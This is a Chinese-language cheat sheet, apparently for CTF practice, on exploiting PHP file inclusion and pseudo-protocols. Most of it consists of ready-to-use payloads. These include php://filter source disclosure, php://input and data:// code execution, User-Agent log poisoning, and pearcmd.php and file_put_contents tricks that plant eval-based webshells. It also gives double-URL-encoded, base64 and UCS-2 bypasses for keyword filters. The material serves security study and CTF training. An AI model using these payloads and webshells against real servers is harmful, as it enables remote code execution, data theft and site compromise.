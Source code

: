 allow_url_include=off默认关闭，开发者使用文件包含往往会开启
allow_url_fopen=on默认开启，一般不用管
<https://blog.csdn.net/weixin_44508748/article/details/108162951>

^
## **php伪协议 文件包含读本地php文件源代码**
php://filter
```
include xx;
@include(xx);
include php://filter/read=convert.base64-encode/resource=flag.php

包含返回flag.php文件源码字符串的是base64编码内容
进行一次base64解码即可看到源代码

如果是根据名称匹配包含php文件
只需要把名称参数换成php://filter/read=convert.base64-encode/resource=flag即可。

也可中间加个index等字符也可以。
php://filter/read=convert.base64-encode/index/resource=flag
```
其他编码方式
```
file=php://filter/resource=flag.php
file=php://filter/read=convert.quoted-printable-encode/resource=/var/www/html/flag.php


UCS-2BE编码：
file=php://filter/read=convert.iconv.UCS-2LE.UCS-2BE/resource=hack.php

编码
<?php
$re = iconv("UCS-2LE","UCS-2BE", '<?php @eval($_GET[1]);?>');
echo $re;
?>
得?<hp pe@av(l_$EG[T]1;)>?


解码：
$encoded_string = // 这里应该是以 UCS-2LE 编码的原始字符串
$decoded_string = iconv("UCS-2LE", "UCS-2BE", $encoded_string);
echo $decoded_string;
```

^
## **compress.zlib包含文件php源代码**
```
?file=compress.zlib://flag.php
```


^
## **php伪协议 文件包含注入php的php代码**

1. php://input 自动包含POST请求体(需要第一allow_url_include开启)
```
include php://input
post请求的请求体参数xx=<?php system(); ?>
请求体直接就一个<?php system(); ?>也可。

如：
?file=Php://input  这里大写可以绕过过滤php
再post：<?php system("tac flag.php");?>

```

2. data://text/plain直接包含代码内容:(需要两个allow开启)
```
include data://text/plain,<?php phpinfo(); ?>

file_get_contents('data://text/plain,welcome to the zjctf','r')
即为welcome to the zjctf

file_get_contents($_GET['2333']) === 'todat is a happy day'
则?2333=data://text/plain;base64,dG9kYXQgaXMgYSBoYXBweSBkYXk=


代码执行获取flag
payload：
?c=data://text/plain,<?php system('cat f*');?>
?c=data://text/plain,<?=system("tac%20flag.php");?>

防止过滤一下：?c=data://text/plain;base64,PD9waHAgc3lzdGVtKCdjYXQgZionKTs/Pg==
但是结尾有.php的情况：include($c.".php"); 编码后会失效。
如果= 也过滤，调整空格数量，直至base64后没有=，末尾会是+号，或直接把=去除。
如果=+也过滤了，<?php    system("ls");     不要闭合?>这样的base64末尾没有+。
如果=+也过滤了，<?php    system("ls") ?>   去掉;这样的base64末尾没有+。
```

^
## **日志包含**
考伪协议绕过也可能直接日志包含
?file=/var/log/nginx/access.log
修改UA为：<?php @eval($_REQUEST[1])?>
1=system("ls");
1=system("tac fl0g.php");




^
## **php伪协议 文件包含自动解压文件再包含**
```
phar://D:/phpinfo.zip/phpinfo.txt
zip://D:\\phpinfo.jpg%23phpinfo.txt

上传了个压缩包，压缩包中phpinfo.txt中文件为<?php system($_GET[a]); ?>
```


## **pearcmd.php文件包含**
已知文件包含：include $_GET['c'].".php";
裸文件包含, 没有上传点, 可供尝试的只有pearcmd.php上传木马。
先用
```
GET /index.php?+config-create+/&c=pearcmd&/<?=@eval($_POST['cmd']);?>+/var/www/html/test.php HTTP/1.1
```
在/var/www/html下写入webshell
再
```
POST /test.php HTTP/1.1

Content-Type: application/x-www-form-urlencoded
Content-Length: 26

cmd=system("cat 36d.php");
```
也可<https://www.cnblogs.com/Egcrying/p/17665041.html>





^
^
^
## **php伪协议写文件**
### **file_put_contents()场景写文件漏洞**
#### **1、写后门过滤绕过**
对于
```
if(preg_match("/'| |_|php|;|~|\\^|\\+|eval|{|}/i",$input)){
        die('hacker!!!');
}
file_put_contents("index.php", $input)
```
可以传入绕过
```
<?=`ls\t/*`?>
<?=`cat\t/flllllll1112222222lag`?>
```

^
#### **2、伪协议写后门绕过**
如果是第一个参数可控，使用伪协议。
```
$file = $_GET['file'];
$content = $_POST['content'];

$file = str_replace("php", "???", $file);
$file = str_replace("data", "???", $file);
$file = str_replace(":", "???", $file);
$file = str_replace(".", "???", $file);

file_put_contents(urldecode($file), "<?php die('大佬别秀了');?>".$content);
```
绕过替换，$file使用双重url编码。
绕过die()函数，$file使用base64伪协议。将die()过滤成die无效字符。
```
?file=php://filter/write=convert.base64-decode/resource=jiuzhen.php
?file=%25%37%30%25%36%38%25%37%30%25%33%61%25%32%66%25%32%66%25%36%36%25%36%39%25%36%63%25%37%34%25%36%35%25%37%32%25%32%66%25%37%37%25%37%32%25%36%39%25%37%34%25%36%35%25%33%64%25%36%33%25%36%66%25%36%65%25%37%36%25%36%35%25%37%32%25%37%34%25%32%65%25%36%32%25%36%31%25%37%33%25%36%35%25%33%36%25%33%34%25%32%64%25%36%34%25%36%35%25%36%33%25%36%66%25%36%34%25%36%35%25%32%66%25%37%32%25%36%35%25%37%33%25%36%66%25%37%35%25%37%32%25%36%33%25%36%35%25%33%64%25%36%61%25%36%39%25%37%35%25%37%61%25%36%38%25%36%35%25%36%65%25%32%65%25%37%30%25%36%38%25%37%30
```
POST传递：
```
content=<?php system(ls);?>   //base64编码—下
content=PD9waHAgc3lzdGVtKGxzKTs/Pg==
content=aaPD9waHAgc3lzdGVtKGxzKTs/Pg== //加两个字符
//<?php die('大佬别秀了');?>被base64过滤后变成phpdie，加两个字符变成4的倍数。
```
访问jiuzhen.php即可。

^
#### **3、伪协议写后门绕过**
```
$file=$_GET['file'];
$contents=$_POST['contents'];

function filter($x){
    if(preg_match('/http|https|utf|zlib|data|input|rot13|base64|string|log|sess/i',$x)){
        die('too young too simple sometimes naive!');
    }
}

filter($file);
file_put_contents($file, "<?php die();?>".$contents);
```
绕过die()函数，$file使用base64伪协议。将die()过滤成die无效字符。
但是这里过滤了base64，这里使用iconv.UCS-2LE.UCS-2BE编码解码。
```
?file=php://filter/write=convert.base64-decode/resource=jiuzhen.php
?file=php://filter/write=convert.iconv.UCS-2LE.UCS-2BE/resource=hack.php
```
```
<?php
$re = iconv("UCS-2LE","UCS-2BE", '<?php @eval($_GET[1]);?>');
echo $re;
?>
得?<hp pe@av(l_$EG[T]1;)>?
```
POST传入：
```
contents=?<hp pe@av(l_$EG[T]1;)>?
```
访问即可
```
/hack.php?1=system('ls');
```